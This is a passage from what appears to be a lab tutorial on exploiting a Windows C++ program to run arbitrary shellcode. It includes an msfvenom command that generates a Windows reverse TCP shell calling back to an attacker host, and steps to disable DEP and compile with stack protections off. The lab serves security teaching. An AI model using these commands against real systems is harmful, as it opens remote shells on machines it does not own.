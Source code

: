       * Notice the output `"Hi~ I'm Evil! * o *"` , the evil function was never called in the original function! This means we can use this as a means to execute arbitrary shellcode.

### Exploitation Part 2
Before executing this we will need to ensure DEP is not enabled on the Windows system. 
1. Open a CMD prompt as an administrator

2. Run the following command and observe the output, if the output is a `1` or `3` then DEP is enabled and we should disable it on the system to prevent future issues.
    ```
    $  wmic OS Get DataExecutionPrevention_SupportPolicy
    ```
3. Restart your system if you modify the DEP settings.

Now we can start observing the malicious program as it executes!
1. Create the [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    <img src="Images/I42.png" width=600>

2. Generate a reverse shell for windows using Metasploit on the Kali Linux Machine.
    ```
    $ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=process -f c -v SHELL
    ```
    * `msfvenom`: The MSFVenom command used to generate shellcode.
    * `-a x86`: Generate the shellcode for a x86 32 bit architecture.
    * `--platform Windows`: Generate the shellcode for a Windows machine.
    * `-p `: Payload we are generating shellcode for.
        * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
        * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
        * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
        * `EXITFUNC=process`: Use the process exit function
    * `-f c`: Output in a format useable in C code.
    * `-v SHELL`: Specify SHELL as the variable name.
3. Compile [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 /c .\E2-2.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler
    * `/GS-`: Compile with Buffer Overflow Protections disabled
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!